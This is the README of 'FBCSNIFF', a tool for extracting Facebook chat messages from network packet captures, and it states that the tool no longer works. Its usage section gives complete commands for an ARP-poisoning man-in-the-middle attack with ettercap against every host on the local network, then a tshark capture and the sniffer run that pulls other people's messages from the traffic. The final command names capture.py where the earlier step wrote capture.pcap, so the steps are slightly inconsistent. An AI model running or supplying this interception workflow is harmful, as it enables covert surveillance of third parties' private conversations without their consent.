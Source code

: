 # FBCSNIFF: Facebook Chat Sniffer

> Extract facebook chat messages from a pcap file

## THIS DOES NOT WORK ANYMORE!

### Deps:

``` sh
$ sudo apt-get install python-dpkt
```

### Options:

```
usage: python fbcsniff.py [OPTIONS] -c <pcap file>

-c <pcap file>
-f <msg filter> (comma separated)
-s <sleep time> (use with -l)
-o <output file>
-l (keep looking for new messages)
-h (show this message)
```

### Usage Example:

I'm using ettercap and tshark

``` sh
$ sudo apt-get install ettercap tshark
```

Start a MITM attach using ettercap **(this will poison EVERYONE!)**:

``` sh
$ sudo ettercap -T -M arp -i <your interface> // // -p auto_add
```

Start tshark capture:

``` sh
$ sudo -i
$ tshark -i <your interface> -w /tmp/capture.pcap
```

Start pulling messages out of the capture file:

``` sh
$ sudo ./fbcsniff.py -l -c /tmp/capture.py
```


